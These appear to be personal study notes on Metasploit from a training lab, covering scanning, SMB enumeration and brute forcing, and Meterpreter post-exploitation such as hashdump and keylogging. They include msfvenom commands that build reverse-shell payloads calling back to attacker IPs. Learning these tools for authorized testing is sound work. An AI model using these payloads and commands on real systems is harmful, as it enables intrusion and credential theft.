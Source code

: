 ### Port Scanning 
- first enter `msfconsole`
- ```bash
  search portscan
  ```
- list potential port scanning modules
- ```bash
   use #
   ```
- in this case, we are using `scanner/portscan/tcp`
- ```bash
  show options
  ```
    - CONCURRENCY: Number of targets to be scanned simultaneously.
    - PORTS: Port range to be scanned. Please note that 1-1000 here will not be the same as using Nmap with the default configuration. Nmap will scan the 1000 most used ports, while Metasploit will scan port numbers from 1 to 10000.
    - RHOSTS: Target or target network to be scanned.
    - THREADS: Number of threads that will be used simultaneously. More threads will result in faster scans.
- nmap works inside the msfconsole
___
### UDP service Identificaftion
- `scanner/discovery/udp_sweep`
- this module will allow you to quickly identify services running over the UDP (User Datagram Protocol). This module will not conduct an extensive scan of all possible UDP services but does provide a quick way to identify services such as DNS or NetBIOS.
- ```bash
  setg RHOSTS [target_ip]
  ```
  - set the target ip globally
- ```bash
    run
  ```
  - runs the scanner
___
### SMB Scans
- SMB (Server Message Block) is a network protocol used for sharing files, printers, and other resources between computers.
- `scanner/smb/smb_version` or `scanner/smb/smb_enumshares`
- find SMB server details and list shared resources
- `http_version` module will find what http version, must change RPORT to the one you want to scan 
- `smb_login` brute forces the login
  - must `show options` and set up the wordlist file and the username then run
___
### Metasploit Database
- in an actual penetration testiing engagement, there will be likely have several targets. Metasploit has a database function to simplify project management
- ```bash
  systemctl start postgresql
  ```
- ```bash
  msfdb init
  ```
- launch `msfconsole`
- ```bash
  db_status
  ```
  check database status
- ```bash
  workspace
  ```
  list avaiable workspaces
  `-a` add a workspace
  `-d` delete a workspace
  EX:
- ```bash
  workspace -a tryhackme
  ```
- ```bash
  workspace [name]
  ```
  to switch between workspacaes
- ```bash
  workspace -h
  ```
  list avaiable options    
- `db_nmap` runs nmap and import the results to the metaspolit database
- resulted information can be retrived from `hosts` and `services`. the `-h` flag will give more options
___
### Example using the database
- pick a vulnerability scanner
- ```bash
  hosts -R
  ```
  uses the data we collected from db_nmap to import the RHOSTS value
- `run` or `exploit`
- ```bash
  services -S [service name]
  ```
  `-S` parameter to search for services in the envirement
  
  - HTTP: Could potentially host a web application where you can find vulnerabilities like SQL injection or Remote Code Execution (RCE). 
  - FTP: Could allow anonymous login and provide access to interesting files. 
  -  SMB: Could be vulnerable to SMB exploits like MS17-010
  - SSH: Could have default or easy to guess credentials
  -  RDP: Could be vulnerable to Bluekeep or allow desktop access if weak credentials were used. 
___
### Vulnerability Scanning
- Identifiying a 'low hanging fruit' aka easily indentifiable and exploitable vulnerabilities that could allow us to gain a foothold on a system.
- thus, getting good at scanning and finding out what the target system's services are running and use the search function to search for exploits etc...
- `info` on any modules to have a better understanding of its use and purpose
___
### Exploitation
- Background the Session:
After getting initial access to a system, you "background" the current session to make it inactive but still accessible for upgrades.
`ctrl+z`

- Upgrade to Meterpreter Shell:
The `sessions -u [session ID]` command upgrades the current session to a Meterpreter shell.
Meterpreter is a powerful post-exploitation tool included with Metasploit. It gives you advanced capabilities like file searching, data collection, and system control.

- Check for Sessions:
Use `sessions` to list all available sessions. Here, session ID 2 now runs the Meterpreter shell.

- Switch to the Upgraded Session:
The command `sessions -i 2` interacts with session ID 2.

- Search for File:
Use `search -f [file]` to look for the file on the compromised system. It finds and gives you the file path.

- Read the File Content:
Use cat with double quotes around the file path to display the content

- `windows/gather/hashdump`
- needs to set to a meterpreter session to work
___
### Msfvenom
- replaced Msfpayload and Msfencode, allows you to generate payloads
- allow you to access all payloads available in the Metasploit framework. In many different formats too (PHP, exe, dll, etc...)

```bash
msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
```
1. `-p php/reverse_php`: Specifies the payload type. In this case, it's a PHP-based reverse shell.
  - `msfvenom -l payloads`: lists all available payloads
  - `msfvenom --list formats`: lists all avaiable output formats

2. `LHOST=10.0.2.19`: The attacker's IP address where the reverse shell will connect.

3. `LPORT=7777`: The port on the attacker's machine that the reverse shell will connect to.

4. `-f raw`: Specifies the output format. raw means the payload will be written in plain PHP code.

5. `> reverse_shell.php`: Redirects the generated payload into a file named reverse_shell.php.

___
### Example of a basic step for msfvenom (reverse shell exploit)
1. attacker creates a payload 
EX: 
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.115.52 LPORT=8888 -f elf > rshell.elf
```
2. the target must have that `rshell.elf` file on their machine (by upload or downloading from the target system etc...)
3. use `exploit/multi/handler` to receive incoming connection from the reverse shell file of the target machine
4. target excutes the `rshell.elf` file
5. we're in
___
### Meterpreter
- it runs on the target system but is not installed on it
- it runs in memory and not on its disk of the target system
- it will be seen as a process and not a file
- it encrypts with the server where metasploit runs, so if the target does not decrypt the encrypted traffic (ex: HTTPS) coming in and out, IPS and IDS solutions will not able to detect it
- `getpid` in meterpreter will get the process id of meterpreter
- will establish an encrypted TLS channel with the attack's system
- most antivirus software will detect it
- `help` for commands in meterpreter
___
### some common meterpreter commands that I don't recall right away but will probably need to use
- `Migrate`: can migrate to a different process (like word.exe, notepad.exe) and act like a keylogger, some versions will also offer `keyscan_start`, `keyscan_stop`, `keyscan_dump` right out of the box
- `hashdump` list content of the SAM database
- `search` locate files
- `shell` will launch a command-line shell on the target system
- `load` additional tools
- when using `cat "path to file"` make sure to include double quotes










